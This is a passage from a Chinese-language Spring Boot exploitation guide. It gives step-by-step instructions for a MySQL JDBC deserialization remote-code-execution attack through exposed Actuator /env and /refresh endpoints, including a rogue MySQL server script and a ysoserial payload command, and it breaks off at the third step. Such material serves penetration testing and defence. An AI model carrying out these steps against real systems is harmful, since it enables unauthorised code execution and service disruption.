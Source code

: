 

#### 漏洞分析：

​	[Spring Boot + H2数据库JNDI注入](https://mp.weixin.qq.com/s/Yn5U8WHGJZbTJsxwUU3UiQ)



#### 漏洞环境：

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```
http://127.0.0.1:9096/h2-console
```



### 0x08：mysql jdbc deserialization RCE

#### 利用条件：

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
- 目标环境中存在 `mysql-connector-java` 依赖
- 目标可以请求攻击者的服务器（请求可出外网）



#### 利用方法：

##### 步骤一：查看环境依赖

GET 请求 `/env` 或 `/actuator/env`，搜索环境变量（classpath）中是否有 `mysql-connector-java`  关键词，并记录下其版本号（5.x 或 8.x）；

搜索并观察环境变量中是否存在常见的反序列化 gadget 依赖，比如  `commons-collections`、`Jdk7u21`、`Jdk8u20` 等；

搜索 `spring.datasource.url` 关键词，记录下其 `value`  值，方便后续恢复其正常 jdbc url 值。



##### 步骤二：架设恶意 rogue mysql server

在自己控制的服务器上运行 [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) 脚本，并使用 [ysoserial](https://github.com/frohoff/ysoserial) 自定义要执行的命令：

```bash
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
```

在脚本**同目录下**生成 `payload.ser` 反序列化 payload 文件，供脚本使用。



##### 步骤三：设置 spring.datasource.url 属性

> ⚠️ 修改此属性会暂时导致网站所有的正常数据库服务不可用，会对业务造成影响，请谨慎操作！
